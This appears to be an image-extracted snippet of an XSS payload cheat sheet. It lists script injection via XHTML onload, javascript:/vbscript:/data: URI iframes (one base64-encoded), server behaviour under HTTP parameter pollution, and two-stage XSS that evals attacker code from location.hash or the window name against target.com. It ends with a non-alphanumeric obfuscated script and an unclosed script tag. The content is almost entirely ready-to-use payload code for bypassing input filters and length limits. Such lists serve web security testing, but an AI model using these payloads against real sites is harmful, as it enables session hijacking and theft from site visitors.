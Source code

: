 ```html
<?xml version="1.0" ?>
<someElement>
	<a xmlns:a='http://www.w3.org/1999/xhtml'><a:body onload='alert(1)'/></a>
</someElement>

URI Schemes
<iframe src="javascript:alert(1)"></iframe>
<iframe src="vbscript:msgbox(1)"></iframe> (IE)
<iframe src="data:text/html,<script>alert(0)</script>"></iframe> (Firefox, Chrome, Safari)
<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></iframe> (Firefox, Chrome, Safari)

HTTP Parameter Pollution
http://target.com/something.xxx?a=val1&a=val2
ASP.NET 	a = val1,val2
ASP 		a = val1,val2
JSP 		a = val1
PHP 		a = val2

Two Stage XSS via fragment identifier (bypass length restrictions / avoid server logging)
<script>eval(location.hash.slice(1))</script>
<script>eval(location.hash)</script> (Firefox)

http://target.com/something.jsp?inject=<script>eval(location.hash.slice(1))</script>#alert(1)

Two Stage XSS via name attribute
<iframe src="http://target.com/something.jsp?inject=<script>eval(name)</script>" name="alert(1)"></iframe>

Non-alphanumeric crazyness...
<script>
$=~[];$={___:++$,$$$$:(![]+"")[$],__$:++$,$_$_:(![]+"")[$],_$_:++$,$_$$:({}+"")[$],$$_$:($[$]+"")[$],_$$:++$,$$$_:(!""+"")[$],$__:++$,$_$:++$,$$__:({}+"")[$],$$_:++$,$$$:++$,$___:++$,$__$:++$};$.$_=($.$_=$+"")[$.$_$]+($._$=$.$_[$.__$])+($.$$=($.$+"")[$.__$])+((!$)+"")[$._$$]+($.__=$.$_[$.$$_])+($.$=(!""+"")[$.__$])+($._=(!""+"")[$._$_])+$.$_[$.$_$]+$.__+$._$+$.$;$.$$=$.$+(!""+"")[$._$$]+$.__+$._+$.$+$.$$;$.$=($.___)[$.$_][$.$_];$.$($.$($.$$+"\""+$.$_$_+(![]+"")[$._$_]+$.$$$_+"\\"+$.__$+$.$$_+$._$_+$.__+"("+$.___+")"+"\"")())();
</script>

<script>
```
